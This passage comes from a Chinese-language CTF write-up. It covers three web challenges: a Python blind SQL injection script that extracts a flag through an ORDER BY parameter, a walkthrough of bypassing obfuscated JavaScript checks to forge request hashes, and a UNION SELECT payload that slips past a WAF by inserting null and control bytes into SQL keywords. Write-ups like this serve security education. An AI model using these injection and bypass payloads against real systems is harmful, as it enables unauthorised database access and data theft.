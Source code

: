 ```
	cookie = {'PHPSESSID': 'qlqmjbq7uglcr0onm1lmm4ndg4'}
	r=requests.get(url+'app.php?action=search&keyword=&order='+payload, cookies=cookie)
	return r.text

flag = ""

for m in range(1,35):
	for i in s:
		payload = "if((select(left((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%s))like(0x25%s)),name,price)" % (str(m), hex(ord(i))[2:])
		if check(payload) != err:
			flag +=i
			print flag
			break
```


# KoG #

这题其实说起来挺难得，不是js老司机根本调不出来，打开题目就能看出来了，页面中是通过id来计算响应的hash然后请求服务器，然后id这里是有判断的，如果被拦了就会返回 wrongboy，为了能得到想要的字符串，我需要下断点把几个判断跳过。

要知道有句话说得好，js混淆永远是纸糊的。

下断点跟踪判断，合并发现更改某几个变量为true/false可以得到字符串参数的正确hash值，
把脚本保存到本地自己更改，边跟边删除掉一些逻辑最后发现最本质的解法是把所有的

类似 
```
($33<<24>>24)>(47);
($36<<24>>24)<(58)
```
判断一个范围在 47 58 之间的都进行更改（有多处，但有些是没用的）。 ($n<<24>>24)==(0) 的不需要管它

```
($变量<<24>>24)>(0);
($变量<<24>>24)<(128);
```

然后在本地测试通过。后面就是最最普通的注入了，不多说了。

# simplesqlin #

题目其实说起来挺简单的，但是却是个不常用的黑魔法，注入点就摆在面前，看上去好像一切都没有过滤，但是事实上主要的几个语句都被拦了，一个select被干了就已经没什么办法了，当前表也没什么东西。

虽然不知道黑魔法是什么地方最早爆出来的，但我看的是这篇文章

[https://www.exploit-db.com/papers/17934/](https://www.exploit-db.com/papers/17934/)

在select的中间加入类似于%00这样的就会绕过waf，没仔细测试，基本上%0几都可以。

```
payload

http://202.120.7.203/index.php?id=5 union sele%0bct 1,(selec%00t flag fro%00m flag limit 0,1),3%23
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i6r7eapfqxz18e7frsexxp6d/image_1bbm7t6mv1lckjf7m4o10tq1s81g.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9cbjbavbdg59k7lbzdt882ct/image_1bbm7tqmjkb011vho2e19mg1j7mt.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fcsi2y6azh4w2cn1hi7vsaox/image_1bbm7umpc158d118d1elc3i71j6g1a.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7iglrk439xnneps9zyt0bje8/image_1bbm81fi31ic413d1vkjuad4q1n.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/d7oo6ll6tzhoxhpi9s0ya4ge/image_1bbm867761jslt3s60i1punqj324.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0fo4y89aul236z6zeq20vzl1/image_1bbnj20hv1tirtiq1ec7vrc2k22h.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hr86wmm3mehab6nubr7q2219/image_1bbnj670k1kjd1fih1khj1oegq6n2u.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ugwkm2dhr9wyfcpa0ohocu31/image_1bbnj81aj1i95ua2ea91c3s5rq3b.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wscz7k86wuyba78gi9ev4yc6/image_1bbnjg0gu18an1nn2dhm7bd1b4h3o.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/571vkxvwy40jemssd8kccqry/image_1bbnm3785lrg1k0pe0iu4b8ij45.png